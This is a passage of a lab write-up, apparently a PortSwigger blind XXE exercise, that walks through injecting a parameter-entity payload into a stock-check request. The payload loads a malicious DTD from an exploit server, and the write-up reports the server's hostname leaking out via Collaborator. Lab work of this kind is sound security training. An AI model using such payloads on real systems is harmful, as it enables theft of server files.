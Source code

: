 Once I've stored that payload I now need to navigate over to the web application and utilize the "Check stock" feature so I can capture it's workflow in the burp history tab. The `POST /product/stock` request is the one with an XML declaration so I sent it to the repeater. 

![find xml declaration](/docs/assets/images/portswigger/blindxxe/bxxe17.png)

Within the repeater just under the XML declaration line I'm going to add another XXE payload that will contain an entity `xxe` that points to the location of my malicious DTD file I stored on the exploit server, which is provided in URL format at the top of the exploit server page in the web browser. `https://exploit-0a9e0072042d2c958350be0d016b00ea.exploit-server.net/exploit` and then reference the created entity at the end `%xxe;` to effectively include the content of the external resource specified in the URL into the XML document. Essentially making the payload execute itself when the server recieves it: 

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a9e0072042d2c958350be0d016b00ea.exploit-server.net/exploit"> %xxe;]>` 

The webserver returns a `400 Bad Request` but in the collaborators log I can observe an HTTP response that has the contents of the `etc/hostname` file in the query string, `2f763caa257e`. 
